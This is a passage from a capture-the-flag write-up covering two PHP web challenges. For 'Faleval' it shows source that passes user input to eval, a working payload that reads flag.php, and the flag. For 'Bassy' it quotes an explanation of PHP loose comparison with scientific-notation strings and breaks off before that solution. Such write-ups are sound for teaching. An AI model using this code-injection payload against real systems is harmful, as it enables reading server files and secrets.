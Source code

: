 ```php
    }
}

eval("?>" . $input);

echo "\n";

?>

<html>
    <head>
        <title>Faleval</title>
    </head>
    <body>
        <h1>Faleval</h1>
        <p>To view the source code, <a href="/?source">click here.</a>
    </body>
</html>

Faleval

To view the source code, click here.
```

### Solution

**Payload:** `?input=<?=file_get_contents('flag.php');`

Flag: `ENO{YummY_YummY_Falafel_Expl01tz}`

## Bassy

> Do you like bass(e)? We only know that the admin's encoded password begins with 'OP)s'... \
> **Author:** @gehaxelt \
> **Conn:** 52.59.124.14:5008

Theory: https://stackoverflow.com/questions/12598407/why-does-php-convert-a-string-with-the-letter-e-into-a-number

> Other answers have already mentioned this, but the PHP manual has explicitly stated it now. PHP interprets any string containing an 'E' bounded by numbers as scientific notation (EXPONENT_DNUM: (\{LNUM} \{DNUM}) [eE][+-]?\{LNUM}). As you can see, this interpretation is case-insensitive (E or e). Where this becomes a `gotcha` in weak type string comparisons var_dump("2E1" == "020"); // true 2E1 is really 2 \* (10 ^ 1), and that works out to 20. Insert any other letter there and it will return the expected false. From the question "608E-4234" == "272E-3063" That works out to 608 \_ (10 ^ -4234) == 272 \* (10 ^ -3063) Neither number can be represented by PHP (as JvdBerg noted), so they are converted to 0

### ![images](https://hackmd.io/_uploads/SJ83Ci8R6.png)

Based on the given source code, we are asked to input a password for the admin account. The parameters are as follows:
